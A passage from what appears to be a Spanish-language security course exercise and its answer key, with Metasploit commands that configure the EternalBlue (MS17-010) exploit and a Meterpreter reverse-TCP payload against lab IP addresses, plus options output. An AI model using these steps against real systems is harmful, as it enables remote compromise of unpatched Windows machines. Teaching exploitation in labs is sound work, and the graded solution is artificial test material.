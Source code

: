 4. Inyección de Shellcode: El shellcode desactiva NX, coloca estructuras falsas y obtiene ejecución de código.

5. Lógica de Reintentos: Se intenta la explotación múltiples veces debido a la inestabilidad de las condiciones de memoria.

6. Activación de Shell: Se establece exitosamente una conexión reverse shell o una sesión Meterpreter.
</pre>


### 2.3. Configuración del Exploit en el Framework Metasploit (2 puntos)

- Configura el exploit mencionado anteriormente, especificando los parámetros necesarios, como las direcciones IP del atacante y la víctima.

- **Tip**: Configura los parámetros **RHOSTS** para la IP de la máquina objetivo y **LHOST** para tu máquina atacante. Estos son esenciales para establecer la conexión.

- **Tip adicional**: También debes configurar el **payload** para el reverse shell. Busca en el metasploit un payload (que ya anteriormente hemos usado en clase) para obtener un reverse shell connection.

- Explica brevemente cada parámetro crítico que configuraste, como **LHOST** y **RHOSTS**, y justifica por qué esos valores son importantes para el ataque.


<hr style="border: none; height: 10px; background-color: #003b00;" />

## <font color="#87CEEB">Solución</font>

<hr style="border: none; height: 10px; background-color: #003b00;" />


```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.0.2.15
RHOSTS => 10.0.2.15
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.0.2.9
LHOST => 10.0.2.9
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
LPORT => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.0.2.15        yes       The target host(s), see https://docs.metasploit.com/docs/using-metaspl
                                             oit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects
                                             Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target
                                             machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Wind
                                             ows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target mach
                                             ines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server
```
